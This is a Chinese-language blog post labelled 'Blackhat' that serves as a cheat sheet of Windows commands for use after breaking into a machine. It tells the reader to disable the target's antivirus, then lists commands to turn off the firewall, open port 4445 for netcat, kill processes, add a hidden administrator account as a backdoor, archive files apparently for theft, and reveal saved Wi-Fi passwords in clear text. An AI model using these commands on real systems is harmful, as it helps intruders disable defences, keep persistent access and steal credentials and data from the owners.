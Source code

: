 ```yaml
---
title: 在渗透后非常有用的windows命令整理
name: windows-useful-cmds
date: 2017-10-29
tags: [cmd]
categories: [Blackhat]
---
```


* 目录
{:toc}

## 注意事项

以下整理的命令不一定在所有windows平台适用，如win10版本等高版本的系统会被拒绝访问，某些杀毒软件会弹出提示框显示授权操作，所以建议是拿到超级管理员权限，且将目标主机的杀毒软件卸载或者关闭。

## 命令明细

```
# 关闭防火墙
netsh advfirewall set allprofiles state off
netsh firewall set opmode disable

# 添加防火墙出入站规则（关闭防火墙失败的情况）
netsh advfirewall firewall add rule name='netcat' dir=in action=allow protocol=Tcp localport=4445
# 检查查看防火墙配置的出入站规则
netsh firewall show portopening

# 查看进程杀死进程
tasklist
tskill 6486

# 创建用户并添加到管理员组
net user vinny$ 123321 /add
net localgroup administrators vinny$ /add

# 删除目标用户或者密码
net user vinny$ *
net user vinny$ /delete

# 压缩文件夹或者文件（目标系统安装好winrar的情况）
"%ProgramFiles%\Winrar\rar" a -ag -k -r -s -ibck a.rar "SAP BYD资料"
"%ProgramFiles%\Winrar\rar" a -ag -k -r -s -ibck a.rar 1.txt 2.txt

# 查看目标机器保存的无线热点和密码
netsh wlan show profile
netsh wlan show profile name="menote2" key=clear
```
